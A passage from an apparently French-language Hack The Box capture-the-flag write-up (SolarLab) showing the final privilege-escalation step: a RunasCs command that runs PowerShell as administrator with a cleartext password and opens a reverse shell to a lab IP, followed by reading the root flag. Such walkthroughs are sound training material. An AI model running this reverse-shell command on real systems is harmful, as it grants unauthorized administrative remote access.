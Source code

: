 ```
.\runascs.exe administrator ThisPasswordShouldDo!@ powershell -r 10.10.14.176:5555
```

![runascs root command](/images/HTB-SolarLab/runascs_root.png)

Nous obtenons un shell en tant qu'administrateur et nous pouvons lire le drapeau root dans le répertoire Desktop.

![root shell & root flag](/images/HTB-SolarLab/root_flag.png)

